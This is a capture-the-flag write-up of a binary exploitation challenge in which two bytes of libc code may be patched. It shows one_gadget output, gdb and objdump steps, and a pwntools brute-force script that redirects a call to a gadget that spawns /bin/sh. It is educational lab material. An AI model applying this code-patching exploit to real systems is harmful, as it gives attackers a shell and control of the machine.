

# Pwn / The state of limbo

by *StateOfLimbo* for *coldboots*

---

# Lore

In last years EPT-ctf (2021) yours truly cheesed a www-challenge (write what where) by spamming all writable memory with a one-gadget until magically hitting a writable vtable, cleaning up the solve script to the max; getting shell with a single write.


# First attempt.

Looking at the source code provided, it was obvious that this challenge is not about pwning a bug in the executable, but about finding the right spot to patch libc to get a shell. Seeking vengeance for last year, the challenge author removed the ability to spam memory, and only allow us to write two bytes. To make matters worse, we don't get to write to memory, but to patch code in the .text segment.

The only way I could think of to be able to get a shell with a two byte write, was to change a jump or a call to hit a one-gadget in libc. This would have to be in the call tree of one of the instructions called after the patch is applied:

```c
    fgets(buffer, 20, stdin);
    memcpy((void*)address, buffer, NUM_BYTES);
    memset(buffer, '\x00', 20);
    printf("wrote %.2s to %p\n", buffer, (void*)address);
    
    exit(1);

```
so it's memcpy (or not because it seems to be inlined), memset, printf or exit.

I did a dump of one gadgets and started spending the rest of the evening looking at gdb .....

```
$ one_gadget -l 2 libc-2.35.so --base=0x007ffff7d8f000
0x7ffff7ddfa37 posix_spawn(rsp+0x1c, "/bin/sh", 0, rbp, rsp+0x60, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL
  rbp == NULL || (u16)[rbp] == NULL

0x7ffff7ddfa43 posix_spawn(rsp+0x1c, "/bin/sh", rdx, rbp, rsp+0x60, environ)
constraints:
  rsp & 0xf == 0
  (u64)xmm0 == NULL
  rdx == NULL || (s32)[rdx+0x4] <= 0
  rbp == NULL || (u16)[rbp] == NULL

0x7ffff7ddfa58 posix_spawn(rdi, "/bin/sh", rdx, rbp, r8, [rax])
constraints:
  rsp & 0xf == 0
  [r8] == NULL
  [[rax]] == NULL || [rax] == NULL
  rdi == NULL || writable: rdi
  rdx == NULL || (s32)[rdx+0x4] <= 0
  rbp == NULL || (u16)[rbp] == NULL

0x7ffff7ddfa60 posix_spawn(rdi, "/bin/sh", rdx, rcx, r8, [rax])
constraints:
  rsp & 0xf == 0
  [r8] == NULL
  [[rax]] == NULL || [rax] == NULL
  rdi == NULL || writable: rdi
  rdx == NULL || (s32)[rdx+0x4] <= 0
  rcx == NULL || (u16)[rcx] == NULL

0x7ffff7e0fc43 posix_spawn(rbx+0xe0, "/bin/sh", r12, 0, rsp+0x60, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL
  rbx+0xe0 == NULL || writable: rbx+0xe0
  r12 == NULL || (s32)[r12+0x4] <= 0

0x7ffff7e0fc50 posix_spawn(rbx+0xe0, "/bin/sh", rdx, 0, rsp+0x60, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL
  rbx+0xe0 == NULL || writable: rbx+0xe0
  rdx == NULL || (s32)[rdx+0x4] <= 0

0x7ffff7e0fc55 posix_spawn(rbx+0xe0, "/bin/sh", rdx, 0, rsp+0x60, environ)
constraints:
  rsp & 0xf == 0
  (u64)xmm0 == NULL
  rbx+0xe0 == NULL || writable: rbx+0xe0
  rdx == NULL || (s32)[rdx+0x4] <= 0

0x7ffff7e0fc5a posix_spawn(rbx+0xe0, "/bin/sh", rdx, 0, r8, environ)
constraints:
  rsp & 0xf == 0
  [r8] == NULL
  rbx+0xe0 == NULL || writable: rbx+0xe0
  rdx == NULL || (s32)[rdx+0x4] <= 0

0x7ffff7e7acf1 execve("/bin/sh", r10, [rbp-0x70])
constraints:
  address rbp-0x78 is writable
  [r10] == NULL || r10 == NULL
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL

0x7ffff7e7acf5 execve("/bin/sh", r10, rdx)
constraints:
  address rbp-0x78 is writable
  [r10] == NULL || r10 == NULL
  [rdx] == NULL || rdx == NULL

0x7ffff7e7acf8 execve("/bin/sh", rsi, rdx)
constraints:
  address rbp-0x78 is writable
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL

0x7ffff7e7ad52 execve("/bin/sh", rbp-0x50, r12)
constraints:
  address rbp-0x48 is writable
  [rbp-0x50] == NULL || rbp-0x50 == NULL
  [r12] == NULL || r12 == NULL

0x7ffff7e7adaf execve("/bin/sh", rbp-0x50, [rbp-0x70])
constraints:
  address rbp-0x48 is writable
  [rbp-0x50] == NULL || rbp-0x50 == NULL
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL

0x7ffff7e7adb3 execve("/bin/sh", rbp-0x50, [rbp-0x70])
constraints:
  address rbp-0x50 is writable
  [rbp-0x50] == NULL || rbp-0x50 == NULL
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL

0x7ffff7e7adb7 execve("/bin/sh", r10, [rbp-0x70])
constraints:
  addresses r10+0x10, rbp-0x50 are writable
  [r10] == NULL || r10 == NULL
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL

0x7ffff7e9cbc2 posix_spawn(rsp+0x64, "/bin/sh", [rsp+0x40], 0, rsp+0x70, [rsp+0xf0])
constraints:
  [rsp+0x70] == NULL
  [[rsp+0xf0]] == NULL || [rsp+0xf0] == NULL
  [rsp+0x40] == NULL || (s32)[[rsp+0x40]+0x4] <= 0

0x7ffff7e9cbca posix_spawn(rsp+0x64, "/bin/sh", [rsp+0x40], 0, rsp+0x70, r9)
constraints:
  [rsp+0x70] == NULL
  [r9] == NULL || r9 == NULL
  [rsp+0x40] == NULL || (s32)[[rsp+0x40]+0x4] <= 0

0x7ffff7e9cbcf posix_spawn(rsp+0x64, "/bin/sh", rdx, 0, rsp+0x70, r9)
constraints:
  [rsp+0x70] == NULL
  [r9] == NULL || r9 == NULL
  rdx == NULL || (s32)[rdx+0x4] <= 0

0x7ffff7e9cbd9 posix_spawn(rdi, "/bin/sh", rdx, 0, r8, r9)
constraints:
  [r8] == NULL
  [r9] == NULL || r9 == NULL
  rdi == NULL || writable: rdi
  rdx == NULL || (s32)[rdx+0x4] <= 0
```

There's actually a lot of gadgets with different constraints, but when looking at them for too long you start to see a pattern..
Also because of the two byte write you can only use a gadget that is within 0xffff of the original jump, but the gadgets that are close together also have a pattern in their conditions that start to haunt your dreams if you look at them for too long.. not recommended! I got closer and closer and found calls that matched nearly all conditions except perhaps it heeded `rcx == NULL`, but I had 0x1 .. And that would still crash the gadget.

Finally I had to try to solve some of the other challenges, and I never got to finish this one during the CTF. 

# Let it go!

Having a challenge named after yourself and not be able to solve it is just not an option, so I have to find that damn gadget!
I had talked to the challenge author after the CTF, and he confirmed that it is solvable by changing a jump or a call to the right one-gadget, but he had scripted it with some nice gdb scripting magic. I also talked to the player of the one team that solved the challenge during the CTF, and he mentioned he had made a mini debugger in c and used ptrace to read the state during runtime and find a matching gadget that way..

Well.. screw that.. how could I have built upon my manual method of traversing the code and checking gadgets manually, without having to learn about ptrace or magic gdb scripting? Probably by finding all the functions that are visited, identifying all jumps and calls and just change and test one after another, doing the math in python.

Sounds reasonable!

Let's do it!

# Dumping the information

To get the functions I started my pwntools script like I always do with the options `LOCAL DEBUG GDB NOASLR`. Then set a breakpoint after fgets and run the following commands in gdb:

```
rbreak .                     // Set breakpoints on all functions
gef config context.enable 0  // disable all the context output from gef
set logging on               // log all output to gdb.txt
```

then I stepped over all the functions, getting log output for every breakpoint.. Removed all the crap lines between the function breakpoints and was left with this list after removing duplicates:

```python
functions = [
b'__printf',
b'__vfprintf_internal',
b'buffered_vfprintf',
b'_itoa_word',
b'__GI__IO_default_xsputn',
b'_IO_new_file_xsputn',
b'_IO_new_file_overflow',
b'_IO_new_do_write',
b'_IO_new_file_write',
b'__GI___libc_write',
b'__GI_exit',
b'__run_exit_handlers',
b'__GI___call_tls_dtors',
b'_dl_fini',
b'___pthread_mutex_lock',
b'_dl_sort_maps',
b'dfs_traversal',
b'___pthread_mutex_unlock',
b'__cxa_finalize',
b'__unregister_atfork',
b'_dl_audit_objclose',
b'_dl_audit_activity_nsid',
b'_IO_cleanup',
b'_IO_flush_all_lockp',
b'__GI___libc_cleanup_push_defer',
b'__GI___libc_cleanup_pop_restore',
b'__GI__exit']
```

I also need all the jumps/branch instructions and function calls in these functions, including the opcodes so that I can calculate the relative jump lengths.. 

I disassembled every function in `functions` in gdb and logged it to `jmps.txt`. Then removed all uninteresting instructions with sed.

```
$ sed -i /mov/d jmps.txt
$ sed -i /lea/d jmps.txt
...
etc
```

now jmps.txt looks like this.,

```
   0x00007ffff7def799 <+41>:	je     0x7ffff7def7d2 <__printf+98>
   0x00007ffff7def81a <+170>:	call   0x7ffff7e040b0 <__vfprintf_internal>
   0x00007ffff7def837 <+199>:	call   0x7ffff7ec5720 <__stack_chk_fail>
   0x00007ffff7e04100 <+80>:	jne    0x7ffff7e04580 <__vfprintf_internal+1232>
   0x00007ffff7e04116 <+102>:	jne    0x7ffff7e06400 <__vfprintf_internal+9040>
   0x00007ffff7e04122 <+114>:	je     0x7ffff7e064c0 <__vfprintf_internal+9232>
   0x00007ffff7e0412b <+123>:	jne    0x7ffff7e056a0 <__vfprintf_internal+5616>
   0x00007ffff7e0415d <+173>:	call   0x7ffff7db74d0 <*ABS*+0xab090@plt>
   0x00007ffff7e0417a <+202>:	je     0x7ffff7e04598 <__vfprintf_internal+1256>
   0x00007ffff7e041b7 <+263>:	jbe    0x7ffff7e05a50 <__vfprintf_internal+6560>
   0x00007ffff7e041c8 <+280>:	call   QWORD PTR [r12+0x38]
   0x00007ffff7e041d0 <+288>:	jne    0x7ffff7e057a8 <__vfprintf_internal+5880>

...
..
.
etc
```

This didn't give me the opcodes that I needed, so I did what any sensible person would do and disassembled libc in its entirety with objdump ....

```
$ objdump -M intel -d libc-2.35.so | tee libc.asm

libc-2.35.so:     file format elf64-x86-64


Disassembly of section .plt:

0000000000028000 <.plt>:
   28000:	ff 35 02 10 1f 00    	push   QWORD PTR [rip+0x1f1002]        # 219008 <_GLOBAL_OFFSET_TABLE_+0x8>
   28006:	f2 ff 25 03 10 1f 00 	bnd jmp QWORD PTR [rip+0x1f1003]        # 219010 <_GLOBAL_OFFSET_TABLE_+0x10>
   2800d:	0f 1f 00             	nop    DWORD PTR [rax]
   28010:	f3 0f 1e fa          	endbr64 
   28014:	68 35 00 00 00       	push   0x35
   28019:	f2 e9 e1 ff ff ff    	bnd jmp 28000 <__abi_tag+0x27c5c>
   2801f:	90                   	nop
   28020:	f3 0f 1e fa          	endbr64 
   28024:	68 34 00 00 00       	push   0x34
   28029:	f2 e9 d1 ff ff ff    	bnd jmp 28000 <__abi_tag+0x27c5c>
   2802f:	90                   	nop
   28030:	f3 0f 1e fa          	endbr64 
   28034:	68 00 00 00 00       	push   0x0
   28039:	f2 e9 c1 ff ff ff    	bnd jmp 28000 <__abi_tag+0x27c5c>
   2803f:	90                   	nop
   28040:	f3 0f 1e fa          	endbr64 
 
 ...
 ...
 ..
 .
```
This way I get every instruction at it's offset from libc_base + the full opcode.


# One gadgets

Got a list of gadgets in libc with `-r` to make it python friendly, and put it in a list in my script. `-l 2` to get some of the more unreasonable gadgets.. more options = greater chance of winning the lottery! 

```
$ one_gadget -l 2 -r libc-2.35.so 
330295 330307 330328 330336 527427 527440 527445 527450 965873 965877 965880 965970 966063 966067 966071 1104834 1104842 1104847 1104857
``` 

# Brut Forc

Then get to work on the list of jumps... cross checking with the opcodes from objdump. Finding the lowest address I would get from writing 0x0000, and the highest address I would get from writing 0xFFFF. For every jump. Mathing it to every gadget. Just testing the binary with every gadget that fits..

```python
with open('libc.asm','r') as file:
    lines = file.readlines()

lines = [ [x.strip() for x in line.strip().split('\t')] for line in lines if line[0:3] == '   ' ]
lines = [ [ int(x[0][:-1],16), [int(i,16) for i in x[1].split(' ')] ] for x in lines ]

opcodes = { noaslrbase+line[0]: line[1] for line in lines }
with open('jmps.txt','r') as file:
    jumps = file.readlines()

jumps = [ int(x.strip().split(' ')[0],0) for x in jumps ]

candidates = { jump: opcodes[jump][-4:] for jump in jumps if jump in opcodes and len(opcodes[jump]) > 4 }
```

Basically reading the objdump disassembly, cutting out the opcodes and index into a list, and then a dictionary with the noaslr address as key for easier lookup.


```python
def GetInt(arry):
    unsigned = u32( b"".join([ int.to_bytes(x,1,'little') for x in arry ]) )
    print(f"GetInt: {arry} : {unsigned} - {hex(unsigned)}")
    return unsigned

def Signed(unsigned):
    if unsigned & 0x80000000 > 0:
        unsigned = -0x100000000+unsigned
    return unsigned
```

Getting the relative jump from the last 4 bytes of each opcode and getting positive or negative jump value.. (negative if it is 0xffff****)


```python
hits = []

for jump in jumps:
    if jump in candidates:
        unsignedint = GetInt(candidates[jump])

        base = jump+len(opcodes[jump])
        minjmp = base + Signed( GetInt(candidates[jump]) & 0xffff0000 )
        maxjmp = base + Signed( (GetInt(candidates[jump]) & 0xffff0000) + 0xffff )

        for gadget in one_gadgets:
            gadr = noaslrbase+gadget
            if minjmp <= gadr and gadr <= maxjmp:
                a = [jump+len(opcodes[jump])-4, gadr-minjmp, jump]
                hits.append(a)

```

Checking the minimum and maximum jump I would get by writing the 2 lowest bytes, and seeing if a gadget is in between. saving all the hits for later.

```python
for hit in hits:
    log.info(f" HIT: {hit}")
    try:
        jump = hit[2]
        code = disasm(b"".join([ int.to_bytes(x,1,'little') for x in opcodes[jump]]))
        print(f"{hex(jump)}: {opcodes[jump]} - {candidates[jump]} - {code} - {GetInt(candidates[jump])}")
        io = start()
        io.recvuntil(b'.text @ [')
        leak = int(io.recvuntil(b'-0x', drop=True),0)
        libcbase = leak - 0x28000

        where = hit[0] - noaslrbase + libcbase
        what = int.to_bytes(hit[1],2,'little')
        io.sendlineafter(b'> ', str(where))
        io.sendlineafter(b'> ', what)

        io.interactive()
        io.close()
    except:
        io.close()
```

Testing all the hits by running the binary for each one.

Finally I got a shell by overwriting the address that corresponds to 0x7ffff7dd4ae6 in NOASLR. Changing the call instruction to call this gadget:

```
0x7ffff7ddfa37 posix_spawn(rsp+0x1c, "/bin/sh", 0, rbp, rsp+0x60, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL
  rbp == NULL || (u16)[rbp] == NULL
``` 


